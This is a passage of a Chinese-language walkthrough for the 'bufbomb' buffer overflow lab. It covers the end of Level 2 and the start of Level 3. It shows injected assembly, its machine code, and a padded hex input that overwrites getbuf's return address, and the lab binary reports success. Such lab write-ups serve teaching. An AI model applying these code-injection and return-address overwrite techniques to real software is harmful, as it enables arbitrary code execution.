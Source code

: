 ```
$gcc -m32 -c callbang.s
$objdump -d callbang.o > callbang_asm
```

打开callbang_asm看到

```
callbang.o:     file format elf32-i386
Disassembly of section .text:
00000000 <.text>:
   0: a1 e4 c1 04 08       mov    0x804c1e4,%eax
   5: a3 ec c1 04 08       mov    %eax,0x804c1ec
   a: 68 22 90 04 08       push   $0x8049022
   f: c3                            ret 
```


得到机器码为 

```
a1 e4 c1 04 08 a3 ec c1 04 08 68 22 90 04 08 c3
```


你不用管每条指令的机器码有多长，cpu会自己断句的，我们只需把这些机器码紧密地写在一起就行了。因此我们需要给hex2raw转换的十六进制数字为

```
a1 e4 c1 04 08 a3 ec c1 04 08
68 22 90 04 08 c3 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 d8 3a 68 55
```

将它们写入文本文件in2

```
$./hex2raw in2 out2
$./bufbomb < out2 -u yy
```

bufbomb输出

```
Userid: yy
Cookie: 0x2a50279f
Type string:Bang!: You set global_value to 0x2a50279f
VALID
NICE JOB!
```

好的，又升级了！

# Level 3
这一级的任务是使getbuf()结束后返回到test(),并将你的cookie作为getbuf()的返回值传给test()。同时恢复各个寄存器的状态，使test()察觉不到我们干了什么，就好像我们什么都没做一样。
首先我们要知道要恢复哪个寄存器，每一级我们都要从-0x28(%ebp)这个位置一路覆盖到返回地址+0x4(%ebp)，显然0x0(%ebp)这个位置也被我们的字符串覆盖了。我们知道，%ebp是callee栈的基址，也就是当前函数的帧指针；(%ebp)是这个基址位置里的内容，也是一个指针，指向caller栈的基址，即调用者的帧指针，在这里是test()的帧指针。当getbuf()返回时试图把(%ebp)恢复到%ebp，但(%ebp)里是我们输入的字符串，我们需要把test()的%ebp里的值找出来，再利用我们写入的指令把它重新赋给%ebp. 要找到原%ebp的值，这需要使用gdb,在test()的代码处设置断点，
